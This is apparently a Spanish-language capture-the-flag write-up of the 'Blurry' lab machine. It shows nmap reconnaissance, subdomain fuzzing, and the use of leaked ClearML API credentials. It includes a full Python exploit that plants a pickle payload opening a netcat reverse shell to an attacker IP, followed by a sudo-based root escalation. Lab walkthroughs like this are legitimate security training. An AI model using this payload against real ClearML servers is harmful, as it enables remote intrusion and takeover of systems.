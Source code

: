 #medium #tecnicas #windows #fuzzing 
### Ping
```python
ping -c 1 10.10.11.19
PING 10.10.11.19 (10.10.11.19) 56(84) bytes of data.
64 bytes from 10.10.11.19: icmp_seq=1 ttl=63 time=152 ms

--- 10.10.11.19 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 152.472/152.472/152.472/0.000 ms
```

### TTL 63 = Linux

### nmap
```python
# Nmap 7.94SVN scan initiated Sun Jun  9 12:19:54 2024 as: nmap -p- --open -sC -sV --min-rate 3000 -n -Pn -oN Scan 10.10.11.19
Nmap scan report for 10.10.11.19
Host is up (0.15s latency).
Not shown: 65477 closed tcp ports (reset), 56 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  9 12:20:32 2024 -- 1 IP address (1 host up) scanned in 38.23 seconds
```

### Enumeración del puerto 80 (http)

tenemos una web que nos permite iniciar sesión con un usuario aleatorio. en este caso usamos admin
![[Pasted image 20240612120028.png]]

`admin`
después de iniciar sesión podemos identificar un proceso que se esta ejecutando
![[Pasted image 20240612120032.png]]

`experiments`
después de hacer clic en el proceso podemos ver el file path de un archivo en la web. se encuentra en otro subdominio así que vamos a enumerar
![[Pasted image 20240612120037.png]]

### Fuzzing con wfuzz

enumerando subdominios podemos encontrar efectivamente el subdominio donde se encuentra el archivo que hemos visto anteriormente y tenemos uno mas llamado `chat` 
![[Pasted image 20240612120045.png]]

### Api
podemos obtener las credenciales de una api lo cual es bueno.
![[Pasted image 20240612120049.png]]

### clearml-ini
al abrir `clearml-ini` vamos a ingresar las credenciales de la api que creamos esto nos creara un archivo `clearml.config` en el home 
![[Pasted image 20240612120135.png]]

### exploit
en esta web nos muestra un ejemplo de como aprovechar la vulnerabilidad para subir un archivo y poder tener ejecución de comandos usaremos este ejemplo para crear nuestro propio exploit para poder cargar un archivo a la maquina llamado `ddd-task` con la reverse shell 
![[Pasted image 20240612120142.png]]

### upload_pwned.py
```python
```python
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.40 9001 >/tmp/f"
        return (os.system, (cmd,))

command = RunCommand()

task = Task.init(project_name="Black Swan",
                 task_name="ddd-task",
                 tags=["review"],
                 task_type=Task.TaskTypes.data_processing,
                 output_uri=True)

task.upload_artifact(name="ddd_artifact",
                     artifact_object=command,
                     retries=2,
                     wait_on_upload=True)

task.execute_remotely(queue_name='default')
```

### shell
ahora solo debemos ejecutar el exploit y estaremos a la escucha para obtener la reverse shell. se subirá una nueva tarea al proyecto y luego de eso debemos esperar que se complete. 
`Nota# si no obtenemos la shell podemos usar ```clearml-agent execute --id``` pasandole el id de nuestra tarea para que se ejecute. y luego solo debemos esperar un rato para que este proceso se complete` 
![[Pasted image 20240612120154.png]]

### Escalada De privilegios

tenemos permisos sobre el binario `/usr/bin/evaluate_model /models/*.pth` así que podemos usarlo para explotar una escalada de privilegios
![[Pasted image 20240612120200.png]]

`este script esta llamdo a otro script llamado /modules/evaluate_model.py haciendo uso de la funcion /models/*.pth esto nos va a permitir modificar el archivo para poder escalar privilegios`
![[Pasted image 20240612120205.png]]

`eliminamos el archivo existente y creamos uno nuevo que contenga una bash y como el archivo se esta ejecutando como root pues obtenemos una root shell`
![[Pasted image 20240612120211.png]]

### WR ARE ROOT